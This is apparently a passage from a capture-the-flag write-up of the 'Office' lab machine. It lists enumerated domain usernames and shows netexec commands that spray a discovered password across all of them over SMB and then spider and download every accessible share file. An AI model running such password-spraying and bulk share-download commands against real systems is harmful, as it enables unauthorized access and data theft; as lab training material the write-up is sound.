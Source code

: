 Now that we have a list of usernames i created the following list of usernames. I removed the domain because most tools add the domain either with an extra parameter or add it implicitly.

```
administrator
Administrator
etower
ewhite
dwolfe
dlanor
dmichael
hhogan
DWOLFE
DLANOR
tstark
dlanoR
EWHITE
Dwolfe
Dlanor
```

Next up i'll try this password we found on all the users we were able to enumerate using kerbrute. I'll use netexec for this with the --shares parameter so we can see if any of these accounts have access to shares.

```bash
netexec smb 10.129.105.41 -u ./users.txt  -p 'H0lOgrams4reTakIng0Ver754!'--shares
```

![Share access](/assets/img/Office/Office_05.png)

### SMB access 


Now that we have access to the SMB share we can download all files we have access too using netexec. We have to make sure we set the **DOWNLOAD_FLAG=True MAX_FILE_SIZE=1000000000000** flags otherwise it won't download all possible files

```bash
netexec smb 10.129.105.41 -u 'dwolfe'  -p 'H0lOgrams4reTakIng0Ver754!' -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=1000000000000
```